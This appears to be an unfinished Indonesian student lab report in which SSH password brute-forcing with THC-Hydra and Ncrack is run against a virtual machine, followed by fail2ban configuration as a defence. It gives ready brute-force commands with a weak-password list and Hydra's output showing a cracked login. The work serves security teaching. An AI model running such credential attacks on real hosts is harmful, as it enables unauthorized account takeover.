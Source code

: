 # Tugas 1

## Pendahuluan
blala

## Dasar Teori

#### Oracle VM VirtualBox
adalah perangkat lunak virtualisasi, yang dapat digunakan untuk mengeksekusi sistem operasi "tambahan" di dalam sistem operasi "utama". Sebagai contoh, jika seseorang mempunyai sistem operasi MS Windows yang terpasang di komputernya, maka seseorang tersebut dapat pula menjalankan sistem operasi lain yang diinginkan di dalam sistem operasi MS Windows.

#### Ubuntu Server
system operasi turunan dari Linux Ubuntu yang di desain khusus dengan kernel yang telah dikustomisasi untuk bekerja sebagai system operasi server.

#### Xubuntu
Xubuntu adalah varian dari Ubuntu yang menggunakan desktop environment Xfce. Xubuntu dipilih karena lebih ringan dan ukurannya lebih kecil dari Ubuntu, sehingga spesifikasi hardware yang dibutuhkan lebih rendah dari Ubuntu. Xubuntu dapat diunduh dari halaman resminya yaitu https://xubuntu.org .

#### 500-worst-passwords.txt
File txt perisi 500 buah password yang digunakan dalam uji coba ini. File ini dapat diunduh di https://wiki.skullsecurity.org/images/c/ca/500-worst-passwords.txt .

#### THC-Hydra
Sebuah tools crack yang semakin unggul dalam hal exploit dan THC-Hydra salah satu yang sangat cepat meretas jaringan logon cracker yang mendukung banyak layanan yang berbeda. Dapat didownload di http://sectools.org/tool/hydra/

#### Ncrack
adalah alat cracking otentikasi jaringan berkecepatan tinggi. Ini dibangun untuk membantu perusahaan mengamankan jaringan mereka dengan secara proaktif menguji semua host dan perangkat jaringan mereka dengan kata kunci yang buruk. Profesional keamanan juga mengandalkan Ncrack saat mengaudit klien mereka. Dapat diunduh di https://nmap.org/ncrack/

#### fail2ban
adalah package keamanan yang digunakan untuk mencegah serangan brute-force dan DDoS pada linux. Fail2ban bekerja dengan memonitor jumlah kegagalan login untuk selanjutnya memblok ip address dari login yang gagal tersebut. dapat diunduh di https://www.fail2ban.org/wiki/index.php/Downloads

## Uji Penetrasi 1

#### Membuat Virtual Machine
Pada aplikasi VirtualBox, lakukan langkah berikut :
1. Pada aplikasi VirtualBox, klik tombol **New**.
1. Isikan nama, type, dan version sesuai dengan OS yang akan diinstal.
1. Atur ukuran memory (disarankan untuk menyesuaikan dengan rekomendasi dari VirtualBox).
1. Pilih opsi **Create a virtual hard disk now**.
1. Pilih opsi **VDI (VirtualBox Disk Image)**.
1. Pilih opsi **Dynamically allocated**.
1. Atur ukuran virtual hard disk (disarankan untuk menyesuaikan dengan rekomendasi dari VirtualBox).
1. Klik **Create**.
1. Lakukan proses ini dua kali, satu untuk Ubuntu Server dan satu untuk OS penetrasi.

#### Instalasi Ubuntu Server
1. Pilih Virtual Machine untuk Ubuntu Server lalu klik tombol **Start**.
1. Pilih disk image blabla


#### Instalasi Xubuntu
Pada aplikasi VirtualBox, lakukan langkah berikut :
1. Pilih Virtual Machine untuk Xubuntu lalu klik tombol **Start**.
1. Pilih disk image Xubuntu 16.04.3.
1. Masuk halaman depan instalasi Xubuntu, pilih bahasa lalu klik **Install Xubuntu**.
1. Pada pilihan instalasi third-party software silakan centang seperlunya.
1. Pilih **Erase disk and install Xubuntu** karena kita menggunakan Virtual Harddisk yang dikhususkan untuk satu OS ini.
1. Pilih lokasi atau zona waktu.
1. Pilih layout keyboard.
1. Isi data-data pengguna.
1. Tunggu hingga instalasi selesai.
1. Klik **Restart Now**.

#### Instalasi THC-Hydra
Pada OS yang digunakan untuk penetrasi, lakukan langkah berikut :
1. Buka terminal. 
1. Jalankan perintah `sudo apt-get install hydra`.

#### Instalasai Ncrack
Pada OS yang digunakan untuk penetrasi, lakukan langkah berikut :
1. Install g++ terlebih dahulu dengan menjalankan perintah `sudo apt-get isntall g++`.
1. Download Ncrack release tarball di https://nmap.org/ncrack .
1. Buka terminal.
1. Lakukan `cd` ke direktori file Ncrack berada.
1. Extract Ncrack dengan perintah `tar -xzf ncrack-0.5.tar.gz`.
1. Lakukan `cd` ke direktori hasil extract.
1. Install Ncrack dengan perintah :
```
./configure
sudo make
sudo make install
```

#### Uji penetrasi menggunakan THC-Hydra
Pada OS yang digunakan untuk penetrasi, lakukan langkah berikut :
1. Buka terminal.
1. Ketikkan perintah `hydra -l [user] -P [passlist.txt] [remote_ip] ssh`, contoh: `hydra -l pksj -P 500-worst-passwords.txt 10.0.2.4 ssh`
1. Output :
```
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-10-24 09:41:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 500 login tries (l:1/p:500), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 10.0.2.4   login: pksj   password: 1234
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-10-24 09:41:25
```

#### Uji penetrasi menggunakan Ncrack
Pada OS yang digunakan untuk penetrasi, lakukan langkah berikut :
1. Buka terminal.
1. Ketikkan perintah `ncrack -p 22 --user [user] -P [passlist.txt] [remote_ip]`, contoh: `ncrack -p 22 --user pksj -P 500-worst-passwords.txt 10.0.2.4`
1. Output :
```
Starting Ncrack 0.5 ( http://ncrack.org ) at 2017-10-24 09:41 WIB

Ncrack done: 1 service scanned in 78.03 seconds.

Ncrack finished.

```

## Uji Penetrasi 2

#### Instalasi fail2ban`
Pada Ubuntu Server, lakukan langkah berikut :
1. Buka terminal. 
1. Jalankan perintah `sudo apt-get install fail2ban`.

#### Konfigurasi fail2ban
1. Buka file jail.conf dengan cara `nano /etc/fail2ban/jail.conf`.
1. Terdapat beberapa variabel untuk diubah. Diantaranya sebagai berikut:
..*ignoreip untuk mengabaikan ip asal yang disebutkan
..*bantime untuk menentukan waktu lama user dibanned
..*findtime dan maxretry untuk menentukan waktu dan jumlah maksimal percobaan dalam proses infiltrasi.
1. Contoh untuk membatasi penetrasi sebanyak 3 kali dalam waktu 600 detik:
```
findtime = 600
maxretry = 3
```


#### Menjalankan dan Mematikan fail2ban
1. Untuk menjalankan, jalankan perintah `sudo service fail2ban start`.
1. Untuk menghentikan, jalankan perintah `sudo service fail2ban stop`.

## Kesimpulan dan Saran
